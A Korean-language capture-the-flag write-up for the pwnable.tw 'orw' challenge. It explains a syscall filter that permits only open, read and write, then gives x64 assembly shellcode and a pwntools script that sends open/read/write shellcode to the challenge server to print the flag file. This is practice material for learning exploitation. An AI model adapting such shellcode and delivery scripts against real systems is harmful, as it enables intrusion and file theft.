




# orw


문제에서 open, read, write 
syscall만 허용이 된다.


거기다가 이 코드를 보면 unk_808640에서
복사해서 들어가는데 v3에는 BPF가 들어간다.
(바이트코드 필터) 


unk_808640 hex table이다.
i386 syscall table 기준으로 보면


1 = exit, 3 = read, 4 = write, 5 open이다.
그리고 기타 시그널 복귀 등이 있다. 
이것을 제외하고 모든 시스템 콜을 차단한다.
orw shellcode 작성문제이다.


드림핵에서 풀었던 기초적인
쉘코드 문제랑 완전 비슷하다.

shellcraft 함수를 사용해서 풀어보겠다.



x86이다.



x86 syscall table 문서 참고해서 인자 잘 넣어주면 된다.

```asm
    mov rax, 0x72672f666c616700
    push rax
    mov rax, 0x002f686f6d652f6f
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    syscall
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x1000
    mov rdx, 0x1000
    mov rax, 0x0
    syscall

    mov rdi, 1
    mov rax, 0x1
    syscall

    xor rdi, rdi
    mov rax, 0x3c
    syscall    
```

전에 만들었던 x64 쉘코드인데
rax, eax 호환되는 것처럼 쉽게 생각하면 쉽게 풀 수 있다.

```python
from pwn import *
r = remote('chall.pwnable.tw', 10001)
context.arch = 'i386'

dir = "/home/orw/flag"

shellcode = shellcraft.open(dir)
shellcode += shellcraft.read('eax', 'esp', 0x30)
shellcode += shellcraft.write(1, 'esp', 0x30)

r.sendlineafter(b"Give my your shellcode:", asm(shellcode))
r.interactive()

```

